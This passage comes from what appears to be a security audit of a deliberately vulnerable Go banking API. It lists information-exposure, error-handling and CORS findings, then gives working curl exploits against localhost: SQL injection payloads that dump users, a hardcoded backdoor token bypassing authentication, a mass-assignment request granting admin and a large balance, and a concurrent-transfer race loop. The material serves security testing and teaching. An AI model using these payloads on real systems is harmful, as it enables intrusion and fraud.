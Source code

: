 **Locations**:
- `handlers/auth.go:44-52` - User details exposed in login response
- `handlers/auth.go:131` - Full user object returned in profile endpoint
- `main.go:102-110` - Environment variables exposed

### 9. **Improper Error Handling**
**Severity**: Low  
**CWE**: CWE-209 (Information Exposure Through Error Messages)

**Locations**:
- `handlers/auth.go:30` - Detailed error messages
- `handlers/banking.go:276` - Database errors exposed

### 10. **Missing Security Headers**
**Severity**: Low  
**CWE**: CWE-693 (Protection Mechanism Failure)

**Location**: `middleware/auth.go:183-195`
**Description**: CORS allows all origins (`*`) which can lead to CSRF attacks.

---

## 🛠️ Exploitation Examples

### SQL Injection
```bash
# Extract all users
curl "http://localhost:8080/api/banking/search-users?q=' UNION SELECT * FROM users --"

# Extract admin users
curl "http://localhost:8080/api/banking/search-users?q=' OR role='admin' --"
```

### Backdoor Access
```bash
# Bypass authentication
curl -H "X-System-Token: backdoor_access_token_12345" \
     http://localhost:8080/api/banking/users
```

### Mass Assignment
```bash
# Elevate user to admin
curl -X PUT http://localhost:8080/api/auth/profile \
     -H "Authorization: Bearer <token>" \
     -H "Content-Type: application/json" \
     -d '{"role":"admin","balance":999999}'
```

### Race Condition
```bash
# Concurrent transfers to exploit race condition
for i in {1..10}; do
  curl -X POST http://localhost:8080/api/banking/transfer \
       -H "Authorization: Bearer <token>" \
       -H "Content-Type: application/json" \
       -d '{"to_user_id":2,"amount":1000}' &
done
```

---